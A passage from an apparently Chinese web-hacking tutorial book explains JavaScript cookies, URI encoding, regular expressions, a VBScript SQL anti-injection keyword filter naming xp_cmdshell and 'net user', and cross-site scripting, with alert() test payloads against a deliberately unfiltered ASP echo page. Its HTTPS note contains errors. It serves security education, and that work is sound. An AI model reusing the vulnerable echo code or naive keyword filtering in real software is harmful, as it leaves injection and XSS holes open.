**注意：**HTTPS 协议是由 Netscape 开发并内置于其浏览器中，用于对数据进行压缩和解压的操作，并返回网络上传送回的结果。HTTPS 实际上应用了 Netscape 的安全套接字层（SSL）作为 HTTP 应用层的子层。HTTPS 使用端口 **443**，而不是像 HTTP 那样使用端口 **80** 来和 TCP/IP 进行通信。SSL 使用 40 位关键字作为 RC4 流加密算法，这对于商业信息的加密是合适的。HTTPS 和 SSL 支持使用 **X.509** 数字认证，如果需要的话用户可以确认发送者是谁。

## 4.5.3 使用Cookie

下面通过一些实例，说明如何用 JavaScript 来创建、查看、删除 Cookie。不过需要注意的是，在设置 Cookie 时，它们首先保存在浏览器的内存中，退出浏览器时，才被写入到硬盘中。

### 1. Cookie对象

我们在处理 Cookie 时，JavaScript 将它保存为 `document` 对象的一个属性，其属性名称是 `cookie`。利用这个属性，可以创建和读取 Cookie 数据。在启动浏览器并打开某个页面后，如果存在相应的 Cookie，那么它被装入到 `document` 对象的 `cookie` 属性中。`Document.cookie` 属性采用 `name=value` 对方式保存各个 Cookie 数据项值。在 `document.cookie` 属性中不能够看到其他 Cookie 属性的设定值，包括过期日期、路径、安全性等。在程序中可以使用 `alert(document.cookie)` 来调用当前页面的 Cookie 数据项值。

### 2. 创建Cookie

在 JavaScript 中创建 Cookie 的方法很简单：只要为 `document.cookie` 属性指定 `name=value` 对即可。不过需要注意的是，在为 `document.cookie` 属性赋值时，是把一个字符串赋值给它，所以使用引号时需要特别注意，不要弄错了。赋值字符串的格式为：

`name=value;[expires=date];[path=path];[domain=somewhere.com];[secure]`

例如：

`document.cookie="id="+form1.cookie.value+";expires="+expiration_date+";path=/";`

再次值得注意的是，在设置 `name=value` 属性时，`name` 和 `value` 中不能包含分号、逗号以及空白符。如果需要在这些元素中包含这些字符或者汉字，那么必须对它们进行编码。

JavaScript 的 `escape()` 函数提供了编码字符串的功能，它将字符串中所有非字母字符转换为用字母数字表示的等价字符串。万花谷病毒就用到了 `escape()` 函数进行字符处理，把某些字符、汉字等变成乱码以达到迷惑人的目的。这种编码方式应用得非常广泛，比如当使用 google 搜索“黑客”时，浏览器向服务器发送字符串 `q=%E9%BB%91%E5%AE%A2`，其中 `%E9%BB%91%E5%AE%A2` 就是汉字“黑客”经过编码后的字符串。这种编码称为 URI 编码。使用 `unescape()` 函数能够把 URI 编码的字符串转换为正常的字符串，万花谷病毒也是利用 `unescape()` 函数将程序解码后在本地机器上运行。

不过目前在 JavaScript 1.5 标准中，提供了函数 `encodeURI()` 和 `decodeURI()` 来取代 `escape()` 和 `unescape()`。这四个函数的功能、语法如表4-10所示。

| 函数(语法格式) | 功能说明 |
|---|---|
| `escape(s)` | 返回字符串 `s` 编码后的结果，编码时将非字母字符以及空白字符使用十六进制转义序列来表示。该函数已经被 `encodeURI(uri)` 取代。 |
| `unescape(s)` | 解码 `escape(s)` 函数编码的字符串，返回字符串原来的值。该函数已经被 `decodeURI(uri)` 取代。 |
| `encodeURI(uri)` | 返回字符串 `uri` 编码的结果，将非字母字符以及空白字符使用十六进制转义序列来表示。但不编码字符 `#`、`?` 和 `@`，这些字符用于分隔 URL 中各组成部分。 |
| `decodeURI(uri)` | 解码由 `encodeURI(uri)` 函数编码的字符，返回字符串原来的值。 |

表4-10

对于玩过网络上一些黑客游戏的朋友就应该知道，在里面的过关中至少有一关利用到了加密技术，对网页中的部分代码进行了加密，其实利用这四个函数就可以轻松实现对代码的加解密。下面通过示例4-23来演示 `encodeURI()` 和 `decodeURI()` 的编码（加解密）功能。代码如下：

```html
<html><head><title>encodeURI()和decodeURI()的编码(加解密)功能</title>
</head><center><h2>URL编码和解码 </h2>
<script language="JavaScript">
<!--
    function urlEncoding(form){
        var myString = form.input.value;
        alert(encodeURI(myString));  //实现编码效果
    }

    function urlDecoding(form){
        var myString = form.input.value;
        alert(decodeURI(myString));  //实现解码效果
    }
// -->
</script>
<body bgcolor="lightgrey" >
<form name="form1">
请键入要编码或解码的字符串：<p>
<input type="text" name="input" size=40><p>
<input type="button"
value="查看编码结果"
onClick="urlEncoding(this.form);"> <p>
<input type="button"
value="查看解码结果"
onClick="urlDecoding(this.form);"><p>
</form>
</center>
</body>
</html>


```

代码运行了之后，首先演示编码的效果，输入关键字“精通脚本黑客”后，单击按钮“查看编码结果”后就出现了如图4-43所示的效果，其编码后的字符是 `%E7%B2%BE%E9%80%9A%E8%84%9A%E6%9C%AC%E9%BB%91%E5%AE%A2`。然后再把 `%E7%B2%BE%E9%80%9A%E8%84%9A%E6%9C%AC%E9%BB%91%E5%AE%A2` 放入输入框中，单击按钮“查看解码结果”就出现了如图4-44所示的效果。
图4-43
图4-44

有了对编码的了解，同时在上面也已经讲解了 Cookie 的组成，现在我们来演示如何创建一个 Cookie。在示例4-24中，在 Cookie 中创建两个 Cookie 数据项：一个名称为 `name`，用于保存用户名；另一个名称为 `passwd`，用于保存用户密码，并将它们的过期日期设置为 1 年加 1 天。在 `document.cookie` 属性中会看到这两个 `name=value` 数据对。示例4-24的代码如下：

```html
<html><head><title>创建Cookie演示 </title>
    <script language="JavaScript">
    <!--
    function makeCookie(form){
        var when = new Date();
        when.setTime(when.getTime() + 24 * 60 * 60 * 1000);
//getTime()函数是取得服务器的当前时间,24 * 60 * 60 * 1000是取得一天的毫秒数,
//这里的功能是时间增加24小时

        when.setFullYear(when.getFullYear() + 1);
//getFullYear()返回本地时间的年份值,加1表示年度增加一年
        yname=form.yourname.value;    //取得输入的用户名
        ypasswd=form.passwd.value;    //取得输入的密码
//开始创建cookie
        document.cookie=encodeURI("name")+"="+encodeURI(yname)
                     +";expires="+when.toGMTString();
        document.cookie=encodeURI("passwd")+"="+encodeURI(ypasswd)
                     +";expires="+when.toGMTString();
//显示cookie
        alert(document.cookie);
    }

    function welcome(myForm){
you=myForm.yourname.value;
var position=document.cookie.indexOf("name=");
//indexOf()方法是返回"name="第一次出现子字符串的字符位置
if ( position != -1){
    var begin = position + 5;
    var end=document.cookie.indexOf(";", begin);
    if(end == -1){ end=document.cookie.length;}
    you= decodeURI(document.cookie.substring(begin, end));
//substring()方法是返回位于begin和end指定的字符串
    str=you;
    alert("欢迎你！" + you);
}
else{ alert("嘿嘿, 还没有Cookie");}
}
// -->
</script>
</head>
<body bgcolor="lightgrey" onLoad="document.form1.reset()" >
<center>
<h2> 用户登录 </h2>
<form name="form1">
    用户名:
    <input type="text" name="yourname" >
    <p>
    密 码:
    <input type="text" name="passwd" >
    <p>
    <input type="button" value="创建Cookie"
        onClick="makeCookie(this.form);">
    <p>
    <input type="button"
        value="查看Cookie" onClick="welcome(this.form);">
    <p>
</form>
</body>
</html>


```

代码运行之后，在用户名中输入“曾云好”，在密码中输入“123456”，单击“创建Cookie”按钮，程序创建 Cookie，并显示如图4-45所示的对话框；单击“查看Cookie”按钮，显示如图4-46所示的欢迎对话框。
图4-45
图4-46

### 3. 读取Cookie

我们记录 Cookie 的目的就是为了使用 Cookie，了解用户访问网站或网页的情况。在读取 Cookie 的时候，只能够读取网页所在服务器生成的 Cookie，而不能读取其他服务器生成的 Cookie。也就是说，`www.baidu.com` 不能够读取 `www.google.com` 上页面生成的 Cookie。Cookie 的访问控制由浏览器决定，它知道所访问页面的 URL。

在下面的示例4-25中，我读取示例4-24所生成的 Cookie，并显示在一个单独网页中。代码如下：

```html
<html><head><title>读取Cookie</title>
<script language="JavaScript">
<!--
  function seeCookie(){
    if(document.cookie == ""){
      document.write("没有定义Cookie! ");
    }
    else{
      var myCookie = document.cookie.split("; ");
      document.write("<body> <font face=宋体>");
      document.write("<br><b>解码前的结果为: <br>");
      for(var i=0;i<myCookie.length; i++){
        document.write("<b>Cookie: " + myCookie[i] + "<br>");
      }

      document.write("<br><br><b>解码后的结果为: <br>");
      for(var i=0;i<myCookie.length; i++){
        document.write("<b>Cookie: " + decodeURI(myCookie[i]) + "<br>");
      }
    }
  }
// -->
</script>
</head>
<body bgcolor="lightgrey" onLoad="document.myForm.reset()" >
<center>
<h2> 读取Cookie</h2>
<form name="myForm">
  请单击下面的按钮，了解当前Cookie的值。
  <p>
  <input type="button" value="读取Cookie" onClick="seeCookie();">
  <p>
</form>
</center>
</body>
</html>
```

该代码执行后，显示如图4-47所示的页面，单击“读取Cookie”按钮后，显示示例4-24所定义的 Cookie 值解码前和解码后的结果，如图4-48所示。

图4-47

图4-48

通过对上面的学习，我想大家也已经对 cookie 的基本知识有了比较全面的了解了。在第二章中，我给大家演示了 cookie 欺骗攻击，利用 cookie 欺骗就可以进行比如无密码登录后台等攻击。cookie 之所以存在欺骗，一是 cookie 文件保存在本地计算机上，造成了用户可以修改其内容，所以这样做就已经存在安全隐患了；二是程序员在写程序的时候对情况考虑不周全，从而导致前面存在的安全隐患变成了安全问题。在第二章中我已经给大家讲解了如何利用 cookie 欺骗漏洞进行攻击了，至于如何发现系统存在 cookie 漏洞以及怎么防御此类漏洞，将在后面的章节中通过具体的程序来做说明，这里大家只要打好坚实的基础就可以了。

### 4.6 正则表达式

#### 4.6.1 什么是正则表达式

正则表达式在英文中称为 Regular Expression，简称为 RegExp。正则表达式最早是由数学家 Stephen Kleene 于 1956 年提出来的，这是他在对自然语言的递归研究成果的基础上提出来的。正则表达式并非一门专用的语言，这一点大家要明白。但是它可以用于在一个文件或字符串中查找或替换文本。它具有两种标准：基本的正则表达式（BRE）和扩展的正则表达式（ERE），其中 ERE 包括 BRE 的功能和其他概念。

简单地说，正则表达式是一种用于模式匹配和替换的强有力工具。正则表达式可以通过使用一系列的特殊字符构建匹配模式，然后把匹配模式与数据文件、程序输入以及 Web 页面的表单输入等目标对象进行比较，根据比较对象中是否包含匹配模式，执行相应的程序。我们大名鼎鼎的防注入系统都是利用这个原理来编写的，后面我会专门来讲解防注入系统。

正则表达式最普通的应用可能就要算是用于验证用户在线输入的邮件地址格式是否正确。如果通过正则表达式验证用户电子邮件地址的格式正确，用户所填写的表单信息将被正常处理；反之，如果用户输入的电子邮件地址与正则表达式的模式不匹配，将会弹出提示信息，要求用户重新输入正确的邮件地址。

正则表达式就是由普通字符（例如字母 a 到 z）以及特殊字符（称为元字符）组成的文字模式，这些模式就是描述在查找文字主体时待匹配的一个或多个字符串。正则表达式作为一个模板，将某个字符模式与所搜索的字符串进行匹配。正则表达式使用斜杠进行分隔，例如，`/abc/` 就定义了一个简单的正则表达式。

正则表达式的用途主要有以下三点：

- 测试字符串是否符合某个模式。例如，可以对一个输入字符串进行测试，看这个字符串是否符合电话号码的模式要求或信用卡号码的模式，这种需求称为数据有效性验证。
- 替换文本。可以在文档中使用正则表达式来标识特定的文字，然后将其删除或替换成别的文字，防注入系统就是利用这个功能实现的。
- 根据匹配模式从字符串中提取一个子字符串。可以用来在文本或输入字段中查找特定的文字，我们的记事本就有这个功能啦。

#### 4.6.2 创建正则表达式

正则表达式就是一个字符模式。在 JavaScript 中，正则表达式是 JavaScript 的一个对象，它主要用于字符串的模式匹配。创建正则表达式有两种方法：字面量方法和使用构造函数 `RegExp()`。下面我就给大家说说这两种方法。

##### 1. 使用字面量方法创建正则表达式

使用字面量创建正则表达式的方法为：将字面量的正则表达式赋值给一个变量。正则表达式包含在两个斜杠之间的一个或多个字符，在后一个斜杠后面，可以指定一个或多个选项。例如，`/abc/`、`/ab+c/`、`/abc/i`、`/abc/gi` 都是正则表达式。使用字面量方法创建正则表达式的一般格式为：

```javascript
var varname = /pattern/flags;
```

其中，`varname` 是变量名称，这个变量用于保存新创建的正则表达式；`pattern` 为指定匹配模式的正则表达式；`flags` 是零个或多个选项，有效选项及其意义为：

- `i`——忽略大小写，即进行字符串匹配时，不区分大小写。
- `g`——全局匹配，即匹配字符串中出现的所有模式。
- `m`——进行多行匹配。

下面是一些正则表达式的示例：

```javascript
var hacker = /脚本黑客/;
var reobj = /love me/ig;
/JavaScript/;
/19[0-9][0-9]*/;
```

##### 2. 使用构造函数 RegExp() 创建正则表达式

正则表达式的构造函数是 `RegExp()`，我们可以利用这个构造函数创建正则表达式。`RegExp()` 可以使用一个或两个参数：第一个参数指定正则表达式，这是正则表达式的字符串表示方法，例如，“脚本黑客”代表字面量的正则表达式 `/脚本黑客/`；第二个参数是可选参数，它指定正则表达式的选项。其标记字符与字面量正则表达式使用的标记字符相同，也是 `i`、`g` 或 `m`，并且意义也相同。

使用构造函数 `RegExp()` 创建正则表达式的一般格式为：

```javascript
var varname = new RegExp("pattern"[, "flags"]);
```

其中，`varname` 是变量名称，该变量用于保存新创建的正则表达式；`pattern` 为指定匹配模式的正则表达式；`flags` 是零个或多个可选项，方括号表示 `flags` 参数可以省略。在这里，`pattern` 和 `flags` 参数都可以是字符串变量。例如：

```javascript
var country = new RegExp("脚本黑客");
var reobj = new RegExp("脚本黑客", "ig");
```

##### 3. 正则表达式对象的方法

正则表达式对象 `RegExp` 提供两种方法：`test()` 和 `exec()`。这两个函数的语法分别为：

```javascript
test(string);
```

功能为：测试字符串 `string` 是否包含了匹配该正则表达式的子串，如果包含了这样的子串，那么函数返回 `true`，否则返回 `false`。

```javascript
exec(string);
```

功能为：在字符串 `string` 中进行匹配搜索，并将结果保存在一个数组中返回；如果没有找到匹配的子串，那么返回 `null`。下面分别来介绍这两种方法的使用技巧。

###### （1）test()

正则表达式对象 `RegExp` 的 `test()` 方法用于检测字符串中是否包含正则表达式指定的模式，包含指定的模式返回 `true`，否则返回 `false`。完成检测后，`RegExp` 对象的 `lastIndex` 属性包含了下一次字符串搜索的开始位置。如果进行全局搜索，那么 `lastIndex` 属性的值是最后一个匹配字符串后面一个字符的位置。使用 `test()` 方法进行正则表达式匹配测试的一般过程为：

- 使用一个变量，将正则表达式赋值给这个变量。
- 使用该正则表达式的 `test()` 方法，检测字符串中是否包含该正则表达式指定的模式。

```javascript
例如：
var mastring = "精通脚本黑客";
var hack = /黑客/;                  // 字面量方法创建正则表达式
var script = new RegExp("黑客");    // 构造函数方法创建正则表达式
script.test(mastring);              // 在字符串 mastring 中搜索模式 /黑客/
```

```javascript
/黑客/.test("精通脚本黑客");
```

另外，也可以直接使用字面量正则表达式的 `test()` 方法。

我们举个完整的例子来具体说明，代码如下：

```html
<html>
<head>
<title>test()方法</title>
<script language="JavaScript">
    var myString = "精通脚本黑客";
    var myregex = new RegExp("黑客"); // 创建正则表达式
    if (myregex.test(myString)) {     // 判断条件是否成立
        alert("找到了指定的模式！");
    } else {
        alert("未找到指定的模式。");
    }
</script>
</head>
<body></body>
</html>
```

代码编写好了之后，运行的结果如图 4-54 所示。

图4-54

###### （2）exec()

`exec()` 方法忽略了正则表达式中的 `g` 选项。执行 `exec()` 方法后，正则表达式对象的 `lastIndex` 属性的值是我们在前一次匹配字符串后面的第一个字符的位置，不过需要注意的是这里是从零开始计数的。所以，利用这个特性，可以得到字符串中与正则表达式相匹配的所有子串。`exec()` 方法返回的数组对象有一个扩展属性，一般的数组是没有这个特性的，我们称为 `index`，它给出了匹配字符串的开始位置。此外，该数组还有另外一个扩展属性，称为 `input`，它给出了被搜索字符串。这样说大家可能很难理解，下面举个例子来具体说明，请看示例 4-26，里面用到了上面的所有知识点，不懂的朋友可以通过代码和代码执行后的结果来理解。代码如下：

```html
<html>
<head>
<title>正则表达式对象exec()方法应用演示</title>
<script language="JavaScript">
    var myString = "aaa 111 bbb 222 ccc 1111 222ddd";
    var regex = /111/;                  // 创建正则表达式对象
    var array = regex.exec(myString);   // 使用exec()方法
    if (array) {
        var str = "找到了匹配子串!" + "\n返回数组的值为:" + array + "\n数组元素个数："
            + array.length + "\n被搜索的字符串为：" + array.input
            + "\n匹配子串的开始位置为：" + array.index
            + "\n匹配子串后面第一个字符的位置为：" + regex.lastIndex;
        alert(str);
    } else {
        alert("未找到匹配子串!!");
    }
</script>
<body></body>
</html>
```

代码运行了之后，得到了如图 4-55 所示的效果。

图4-55

#### 4.6.3 正则表达式的字符串对象的常用方法

上面我们讲的 `test()` 和 `exec()` 方法是属于正则表达式对象的方法，而接下来我们要讲的是字符串对象的方法，这点大家要分清楚哦。在程序中除了可以使用正则表达式对象的方法 `test()` 和 `exec()` 进行字符串测试和匹配之外，还可以用字符串对象的方法来完成这些任务。在完成某些操作的时候，它们可能更加简单和有效。表 4-11 列出了这些方法的名称及其简要功能。

| 方法 | 功能 |
|---|---|
| `match(regex)` | 在一个数组中返回与正则表达式 `regex` 相匹配的子串 |
| `replace(regex, replacement)` | 将字符串中 `regex` 指示的子串替换为 `replacement` |
| `search(regex)` | 查找正则表达式 `regex` 指示的模式在字符串中的开始位置 |
| `split(regex)` | 使用正则表达式 `regex` 分割字符串，并将分割结果以数组形式返回 |

表4-11

上面的四个方法与黑客技术紧密相关的要数 `replace(regex, replacement)` 了，在 4.6.4 节中要讲的通用防注入系统就是利用这个方法来完成的。其他的方法不是那么密切，所以在这里我就详细说一下 `replace()` 方法，其他的方法大家可以去看光盘里自带的电子书，里面也有介绍。

字符串对象的 `replace()` 方法用于搜索字符串，并用另一个字符串替换搜索到的子串。在指定搜索模式时，可以将其指定为一个字符串，也可以是一个正则表达式。`replace()` 的调用格式为：`afterString = beforeString.replace(regular_expression, replacement_value)`；其中，`afterString` 是完成替换后的字符串；`beforeString` 是替换前的字符串；`regular_expression` 是指定匹配模式的正则表达式；`replacement_value` 是替换后的内容。下面我们就来演示一下 `replace()` 方法的效果，示例 4-27 的代码如下：

```html
<html>
<head>
<title>字符串对象replace()方法演示</title>
</head>
<body bgcolor="lightgrey">
<font size="+1">
<font face="宋体">
<script language="JavaScript">
<!--
var oldString = "哈哈精通哈哈脚本哈哈黑客哈哈";
var regex = /哈哈/g;                 // 一个全局替换的正则表达式
var newString = oldString.replace(regex, "嘿嘿");
document.write(newString + "<br>");
// -->
</script>
</body>
</html>
```

在这个例子中，是把 oldString 中的“哈哈”替换成“嘿嘿”，然后输出，如图 4-56 所示。

图4-56

#### 4.6.4 初识防注入程序

在第二章我已经花了比较大的篇幅来给大家讲注入攻击了，这是在脚本里最为重要的攻击手法。当然这种漏洞也是有办法进行防御，目前网络上很多系统都采用的是通用防注入系统。下面就让我们来认识一下吧。

通过对第二章的学习，大家对于手工注入攻击应该都很熟悉了，都明白在手工注入的时候要用到哪些代码，在这里就不详细说那些代码。如果还有哪位不熟悉的话，可以返回到第二章去参考。

下面我给大家介绍一个由 VBScript 编写的 SQL 通用防注入系统，在后面我会给大家解释每一条代码，代码如下：

```vb
<%
On Error Resume Next
Dim Sqlstr, error, num
Sqlstr = Request.ServerVariables("QUERY_STRING")
Dim sqlkey(18)
sqlkey(0) = "net user"
sqlkey(1) = "xp_cmdshell"
sqlkey(2) = "/add"
sqlkey(3) = "exec%20master.dbo.xp_cmdshell"
sqlkey(4) = "net localgroup administrators"
sqlkey(5) = "select"
sqlkey(6) = "count"
sqlkey(7) = "asc"
sqlkey(8) = "char"
sqlkey(9) = "mid"
sqlkey(10) = """"
sqlkey(11) = ","
sqlkey(12) = "'"
sqlkey(13) = "insert"
sqlkey(14) = "delete"
sqlkey(15) = "drop"
sqlkey(16) = "truncate"
sqlkey(17) = "from"
sqlkey(18) = "%"
error = false
for num = 0 to ubound(sqlkey)
    if instr(Sqlstr, sqlkey(num)) <> 0 then
        error = true
    end if
next
if error then
    Response.Write("您输入的数据中含有攻击字符，请不要尝试攻击！")
    Response.End
end if
%>
```

第 1 行和第 35 行的两个符号表示 ASP 程序的开始与结束。第 2 行表示出错后继续执行。第 3 行定义数据库查询语句 `Sqlstr`、出错标志 `error`、计数器 `num`。第 4 行中 `Request` 是 ASP 中的一个对象，`ServerVariables` 是 `Request` 对象的一个集合，它是获得客户端请求的 HTTP 报头值，以及一些 Web 服务器环境变量值的集合。这里是将服务器提交的查询语句赋给 `Sqlstr`。第 5 行定义了查询关键字数组 `sqlkey`，共 19 个元素。第 6 行定义了过滤关键字 `net user`，从第 6 行开始到 24 行都是要过滤的关键字，共 19 个常用的 SQL 注入关键字，如果还有其他没有写上去的关键字，只要增加数组的容量，然后加进去就可以了。第 25 行为置出错标志为否，即默认不出错。`ubound()` 函数是返回数组的最大可用下标，这里为 18。第 26 行为一个 `for` 循环，依次检查数组中的每一个字符。第 27 行中的 `instr()` 函数是返回某字符串在另一字符串中第一次出现的位置，这里起的作用是：查询提交连接中如有 19 个关键字则置 `error` 为真。第 32 行，如果 `error` 为真，那么就输出“您输入的数据中含有攻击字符，请不要尝试攻击！”。

这就是整个系统的解释，是不是有一些头晕了呢？我再来给大家理顺一下：首先编写一个数组，里面为 SQL 攻击的关键字。取得每一个从客户端输入的数据，然后利用 `for` 循环和 `instr` 函数检测客户端输入的数据中是否含有数组中的 SQL 攻击关键字，如果有就输出“您输入的数据中含有攻击字符，请不要尝试攻击！”，否则系统就正常运行。

### 4.7 跨站攻击详解

#### 4.7.1 跨站漏洞的成因

跨站漏洞现在非常普遍，其危害也是比较大的。在第二章中，已经给大家实例讲解了一些跨站攻击的方法及思路。跨站漏洞也稍微提及了一下，不过还是不够详细和全面。下面就给大家全面地介绍一下跨站漏洞的成因。在这里我就引入由剑心[B.C.T]写的《跨站脚本攻击攻防之我见》和《也谈跨站脚本攻击与防御》中的部分内容。

跨站漏洞的成因主要是用户提交的变量没有经过完整过滤 HTML 字符，或者根本就没有经过过滤就放到了数据库中，并且在一些地方又直接从数据库中取出来返回给访问的用户，这就导致了跨站脚本漏洞的产生。换种更通俗的说法就是，跨站脚本漏洞其实就是 HTML 的注入问题，恶意用户的输入没有经过严格控制进入了数据库，最终显示给访问的用户，导致可以在访问用户的浏览器里以浏览用户的身份执行 HTML 代码。数据流程如下：恶意用户的 HTML 输入———>Web 程序———>进入数据库———>Web 程序———>用户浏览器。这样我们就可以清楚地看到 HTML 代码是如何进入受害者浏览器的了，我们也就可以根据这个流程来讨论跨站脚本的攻击与防御了！因为一个恶意用户提交的 HTML 代码最终被其他浏览该网站的用户访问，通过这些 HTML 代码也就间接控制了浏览者的浏览器，就可以做很多事情，如窃取敏感信息、引导访问者的浏览器去访问恶意网站等，这样就导致了跨站脚本漏洞的产生。

根据上面的说明，我们大概清楚了漏洞是如何产生的。知道如何产生后，我们就可以针对产生的原因进行防御了。整个过程中，用户提交的内容和用户的访问我们是无法控制的，我们能控制的也就是程序如何去处理用户提交的数据。只要在用户提交的内容进入数据库之前进行有效的控制和处理，就可以不必担心数据对浏览用户构成威胁了。但是到底该怎么处理用户的数据呢？我看到很多程序都做了一些过滤，但是感觉都很杂乱，思路不清晰，有种隔靴搔痒的感觉，非常容易产生安全问题。这里我们来分析下黑客是如何利用跨站脚本，以及导致漏洞的根本原因，也就知道该如何处理用户的数据，从而避免跨站脚本漏洞了！

因为是 HTML 字符没有过滤，也就是说跨站脚本是对 HTML 的利用，那我们就从 HTML 的特性着手，开始分析该过滤哪些字符吧（因为是小菜，分析得不好别 PK 偶）！

通过第三章的学习，大家都知道 HTML 里的代码执行时都会有个叫做 HTML 标记的东西，也就是我们经常见到的 `<td>` 还有 `<script>` 这样的东西。当浏览器遇到一个以 `<` 开头的标签时，就会认为产生了一个 HTML 标记，它就会用自己内部的机制去响应和解释这些标签。譬如 `<script>` 这样的内容一旦出现，浏览器将认为产生一个脚本标记并且将其后面的内容当作 JavaScript 来解释执行，直到出现 `</script>` 结束。我们可以看出浏览器的所有输出操作都是由这些 `<>` 标记控制的，它只是解释这些标记并且产生动作或者把结果返回给用户，其他的都当成普通字符显示。这样的话，如果用户提交的内容是 `<script>alert("Test!")</script>` 并且没有任何过滤，然后又从数据库里取出来直接显示的话，就会在其他来访者浏览器里执行代码了，这里仅仅是弹出个对话框而已。为了方便演示，这里用 ASP 写了一个简单的程序如下（算是先对 ASP 有一个感性的认识，对于 ASP 代码我会给大家解释的，大家不用害怕）：

```asp
<%  //这是ASP的标记
str=trim(request("a"))
    //request对象作用是获取客户端表单中输入的数据
response.write str
    //response也是ASP的一个对象，write是它的一个方法，其作用是往页面中输出数据
response.write "<br>"
response.write "</img>"
%>
```

这里就是在页面中输出 str。

很简单的一个程序，就是把用户提交的内容直接显示出来，并构造一个地址，由用户提交的 img 标签显示图片。很明显这没有经过任何过滤，后面我们将模拟攻击这个程序来考虑该如何防御这种攻击。然后构造一个简单的提交表单：

```html
<form action=test.asp>
<textarea name=a></textarea>
<input type=submit value=test>
</form>


```

访问这个 HTML 并且在提示框里输出 `<script>alert("呵呵，漏洞！")</script>`，提交后就可以看到弹出对话框了，如图 4-57 所示。
图 4-57

#### 4.7.2 跨站漏洞攻击与防御详解

通过上一节的介绍，我想大家应该也对跨站脚本漏洞的成因有很深刻的认识了，下面我来具体谈谈跨站漏洞攻击与防御。在上一节中，我们谈到了 HTML 是跨站的根源，所以其本质也是 HTML 标签。但在我们程序中的标签有两种情况之分：一种是用户自己构造标签，上一节的例子就很典型；第二种是利用系统提供的标签，在第三章的头像跨站攻击中，这也是一个典型。所以接下来我就分两种情况来具体讨论。

##### （1）什么是 UBB 编码

UBB 代码是 HTML 的一个变种，是 Ultimate Bulletin Board（国外的一个 BBS 程序）采用的一种特殊 TAG。UBB 代码很简单，功能很少，但是由于其 Tag 语法检查实现非常容易，所以我们的网站引入了这种代码，以方便网友使用显示图片、链接、加粗字体等常见功能。这里给出 UBB 代码使用的几个例子。

- 1. 有两种方法可以加入超级链接，可以连接具体地址或者文字链接。

```text
[URL]http://www.smallstick.net/[/URL] //或直接输入网址，系统自动设置为超级链接。
[URL=http://www.smallstick.net/]smallstick[/URL]
```

- 2. 显示为粗体效果

```text
[B]文字[/B]
```

- 3. 显示为斜体效果

```text
[I]文字[/I]
```

- 4. 显示为下划线效果

```text
[U]文字[/U]
```

- 5. 文字位置控制

在文字的位置可以任意加入您需要的字符，center 表示居中，left 表示居左，right 表示居右，justify 表示两端对齐。

```text
[ALIGN=center]文字[/ALIGN]
```

- 6. 加入邮件链接有两种方法，可以连接具体地址或者文字链接。

```text
[EMAIL]webmaster@smallstick.com[/EMAIL]
[EMAIL=Mailto:webmaster@smallstick.com]smallstick[/EMAIL]
```

- 7. 插入图片，并可以点击图片打开新窗口查看图片。

```text
[IMG]http://www.smallstick.com/images/logo.gif[/IMG]

//插入图片，指定边框大小及对齐方式
[IMG=2,right]http://www.smallstick.com/images/logo.gif[/IMG]
```

- 8. 插入 MicroMedia 的 Flash

```text
[swf]http://www.test.com/flag.swf[/swf]
[swf=宽度,高度]http://www.test.com/flag.swf[/swf]
```

- 9. 实现文字飞翔效果（跑马灯）。

```text
[FLY]文字[/FLY]
```

- 11. 实现文字颜色改变。

```text
[COLOR=颜色]文字[/COLOR]
```

- 12. 实现文字大小改变。

```text
[SIZE=数字]文字[/SIZE]
```

- 13. 实现文字字体转换。

```text
[FACE=字体]文字[/FACE]
```

- 15. 插入 RealPlayer 格式的 rm 文件。

```text
[RM=]http://....[/RM]
[RM=宽度,高度]http://....[/RM]
```

- 16. 插入为 Media Player 格式的文件。

```text
[MP=]http://....[/MP]
[MP=宽度,高度]http://....[/MP]
```

##### （2）什么是 HTML 输入

```html

```

这里给出一个 HTML 代码的示例：很多程序最终都是将用户的输入转换成这种形式的。可以看到 `<>` 是告诉浏览器这是一个 HTML 标记，img 是这个 HTML 标记的名称，src 是这个标记的第一个属性，`=` 后面是这个属性的值，后面的 width 是第二个属性，onerror 是标记的事件属性。大家可以看到，一个 HTML 标记是包括很多元素的，并不是传统意义上的只有输入 `<>` 才会注入 HTML，事实上只要你的输入处在 HTML 标签内，产生了新的元素或者属性，就实现了跨站脚本攻击！实际上大多数隐秘的跨站脚本攻击是不需要 `<>` 的，因为现在的 UBB 标签已经让你处在了 HTML 标记之内。

### （2）哪里才是罪恶的来源

既然我们的目标是引入代码在目标用户的浏览器内执行，那么我们来看看哪些地方才可以引入 HTML 代码吧！如果用户可以不受限制地引入 `<>`，那么很显然他可以完全操纵一个 HTML 标记，譬如 `<script>alert('xss')</script>` 这样的形式，这对于追求安全的程序来说是绝对不允许的，所以首先要做转换的就是 `<>`，通过如下代码：

```vb
replace(str,"<","&#x3C;")
replace(str,">","&#x3E;")
```

HTML 支持 `&#ASCII` 这样的编码，其功能与 HTML 是一样的，这里表示的 ASCII 码是十六进制。这里我给出 ASCII 码的转换表，如表 4-12 所示。

|  | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| Char | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 |  |  |
| Hex | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 |  |  |
| Char | A | B | C | D | E | F | G | H | I | J | K | L |
| Hex | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 4A | 4B | 4C |
| Char | M | N | O | P | Q | R | S | T | U | V | W | X |
| Hex | 4D | 4E | 4F | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 |
| Char | Y | Z | a | b | c | d | e | f | g | h | i | j |
| Hex | 59 | 5A | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 6A |
| Char | k | l | m | n | o | p | q | r | s | t | u | v |
| Hex | 6B | 6C | 6D | 6E | 6F | 70 | 71 | 72 | 73 | 74 | 75 | 76 |
| Char | w | x | y | z |  |  |  |  |  |  |  |  |
| Hex | 77 | 78 | 79 | 7A |  |  |  |  |  |  |  |  |

表 4-12

好了，用户可能不能构造自己的 HTML 标记了，那么利用已经存在的属性如何呢？下面的代码依然可以工作得很好：

```html

```

因为很多 HTML 标记里属性都支持 `javascript:[code]` 的形式。很好，很多程序意识到了这一点，可能做了如下转换：

##### 过滤代码

```vb
Dim re
Set re=new RegExp    //创建一个正则表达式对象
re.IgnoreCase=True   //IgnoreCase 属性表示正则表达式选中了 i 选项
re.Global=True       //Global 属性表示正则表达式选中了 g 选项
re.Pattern="javascript:"
